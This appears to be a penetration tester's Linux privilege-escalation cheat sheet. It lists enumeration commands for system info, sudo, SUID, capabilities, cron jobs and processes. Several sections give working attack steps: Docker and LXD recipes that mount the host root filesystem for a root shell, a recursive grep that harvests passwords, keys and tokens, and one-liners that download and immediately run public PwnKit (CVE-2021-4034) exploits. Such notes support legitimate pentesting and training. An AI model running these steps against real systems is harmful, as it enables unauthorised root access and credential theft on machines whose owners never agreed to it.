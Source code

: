 # Linux Privilege Escalation

## Tools

#### [LinPEAS](https://github.com/peass-ng/PEASS-ng)

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

#### [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
```

#### [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash"><strong># Import the image
</strong>lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
</code></pre>

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can add words to the blacklist on the `grep -Ev` section.
{% endhint %}

{% code overflow="wrap" %}
```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
{% endcode %}

## Writable Scripts

```bash
find / -user <USER> -writable \( -name "*.sh" -o -name "*.py" \) -type f 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -Eriao --color=always '(password|passwd|pass|pwd|key|secret|token)[[:space:]]*[:=][[:space:]]*[^[:space:]]{6,}' . | awk '{ line = $0; sub(/^[^:]*:[^:]*:/, "", line); if (!seen[line]++) print $0; }'
```
{% endcode %}

## Exploits

### Polkit - (CVE-2021-4034)

[https://github.com/Almorabea/pkexec-exploit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

{% code overflow="wrap" %}
```bash
curl -sL https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py -o PwnKit.py && python3 PwnKit.py
```
{% endcode %}

[https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

{% code overflow="wrap" %}
```bash
curl -sL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit && chmod +x PwnKit && ./PwnKit
```
{% endcode %}
